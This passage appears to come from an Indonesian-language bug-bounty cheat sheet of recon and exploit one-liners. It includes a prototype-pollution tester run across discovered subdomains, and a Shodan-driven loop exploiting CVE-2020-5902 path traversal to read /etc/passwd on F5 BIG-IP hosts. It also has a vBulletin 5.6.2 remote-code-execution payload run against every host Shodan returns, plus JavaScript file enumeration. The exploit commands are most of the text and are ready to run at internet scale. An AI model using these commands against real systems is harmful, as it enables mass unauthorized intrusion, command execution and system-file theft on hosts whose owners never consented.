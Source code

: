 
### 4. Prototype Pollution

```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" :""'
```

**Penjelasan:**

- Menemukan subdomain, cek URL, lalu uji parameter `__proto__` untuk mendeteksi prototype pollution di JS.
- **Cara pakai:**
  - Install: subfinder, httpx, anew, page-fetch.

---

### 5. CVE Exploits

Contoh: **CVE-2020-5902**

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host; do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q "root:x" && echo "[VULNERABLE] $host"; done
```

**Penjelasan:**

- Mencari target rentan di Shodan, lalu uji exploit CVE sesuai payload.
- **Cara pakai:**
  - Pastikan punya akses Shodan CLI dan API key.

---

### 6. vBulletin 5.6.2 RCE

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host; do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=echo%20shell_exec("id");exit;' | grep uid && echo "[VULNERABLE] $host"; done
```

**Penjelasan:**

- Eksploitasi RCE pada vBulletin dengan payload khusus.

---

### 7. Find JavaScript Files

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | grep "\.js" | sort -u
```
